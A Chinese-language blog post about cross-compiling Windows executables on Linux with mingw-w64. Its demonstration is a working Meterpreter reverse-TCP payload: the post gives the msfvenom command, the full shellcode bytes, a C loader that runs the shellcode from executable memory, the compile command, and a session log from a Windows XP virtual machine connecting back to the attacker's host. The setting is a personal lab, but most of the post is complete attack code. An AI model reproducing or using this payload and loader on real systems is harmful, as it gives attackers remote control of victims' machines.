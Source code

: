 # 尝试在 Linux 下编译 exe 可执行文件


# 序

最近一直在想有没有什么办法可以在 Linux 环境下编译 Windows 中可以运行的 exe 文件，由于自己没有 Windows 环境， 就算开虚拟机也多多少少有些不方便..

于是就去谷歌了一下.. 发现办法是有的.

这种办法叫做交叉编译, 要用到交叉编译器

我们看看维基百科上怎么说

>交叉编译器（英语：Cross compiler）是指一个在某个系统平台下可以产生另一个系统平台的可执行文件的编译器。交叉编译器在目标系统平台（开发出来的应用程序序所运行的平台）难以或不容易编译时非常有用。 
>
>交叉编译器的存在对于从一个开发主机为多个平台编译代码是非常有必要的。直接在平台上编译有时行不通，例如在一个嵌入式系统的单片机 ，因为它们没有操作系统，所以直接编译行不通。 
>
>交叉编译器和源代码至源代码编译器不同，交叉编译器用于二进制代码的跨平台软件开发，而源到源编译器是将某种编程语言的程序源代码作为输入，生成以另一种编程语言构成的等效源代码的编译器，但两者都是编程工具。 
>
>rel: https://zh.wikipedia.org/zh-hans/%E4%BA%A4%E5%8F%89%E7%B7%A8%E8%AD%AF%E5%99%A8

概念就是这样..

# mingw-w64
这大概是个交叉编译器了

看看官网怎么说

> Mingw-w64 is an advancement of the original mingw.org project, created to support the GCC compiler on Windows systems. It has forked it in 2007 in order to provide support for 64 bits and new APIs. It has since then gained widespread use and distribution. 
>
>rel: https://mingw-w64.org/doku.php

好的接下来我们就安装它， 这里 Arch 就直接从 pacman 装上了

```text
$ sudo pacman -S mingw-w64
```

![](/img/2021-04-26-14-32-57屏幕截图.png)
![](/img/2021-04-26-14-33-58屏幕截图.png)

# 开始编译

那么， 装完之后就可以开始编译了

我打算编译一个 payload 试试看，嘿嘿


首先我们先用 `msfvenom` 生成一段 `shellcode`
```txt
$ msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=3333 -f c >> shellcode.c
```
---

```c
unsigned char buf[] = 
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x31\xff\x8b\x72\x28"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\x85\xc0\x74\x4c\x01\xd0\x8b\x48\x18\x8b\x58\x20\x50\x01\xd3"
"\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34\x8b\x01\xd6\x31\xc0\xac"
"\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24"
"\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59"
"\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d"
"\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
"\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\x6d\xa6\x24\x38\x68\x02"
"\x00\x35\x16\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
"\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
"\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
"\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
```
---

然后编写我们的代码

```c
#include<windows.h>
#include<stdio.h>

unsigned char shellcode[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x8b\x52\x10\x8b\x42\x3c\x57\x01\xd0\x8b\x40\x78"
"\x85\xc0\x74\x4c\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3"
"\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34\x8b\x01\xd6\x31\xc0\xc1"
"\xcf\x0d\xac\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24"
"\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59"
"\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d"
"\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
"\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x00\x70\x68\x02"
"\x00\x0d\x05\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
"\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
"\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
"\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

void main(){
    printf("啊哈！你中毒啦！");
    //ShellExecute(NULL, _T("open"), _T("explorer.exe"), _T("https://www.baiud.com"), NULL, SW_SHOW);
    LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(Memory, shellcode, sizeof(shellcode));
    ((void(*)())Memory)();
}
```
> PS: 这是抄的(bushi)

接下来进行编译

```txt
$ i686-w64-mingw32-gcc-10.2.0 payload.c -o payload.exe -v
```

没有任何报错之后，丢进虚拟机里运行, 如果 meterpreter 能够上线则说明编译是有效的

# 检验

![](/img/2021-05-07-18-18-28屏幕截图.png)

```txt
[*] Started reverse TCP handler on 192.168.0.112:3333 
[*] Sending stage (175174 bytes) to 192.168.0.113
[*] Meterpreter session 1 opened (192.168.0.112:3333 -> 192.168.0.113:1045) at 2021-05-07 18:18:17 +0800

meterpreter > sysinfo
Computer        : CHINA-74ED62096
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

我们直接丢进去跑...

emmm 虽然字乱码了。

不过连接是建立了，那么说明编译是有效的～


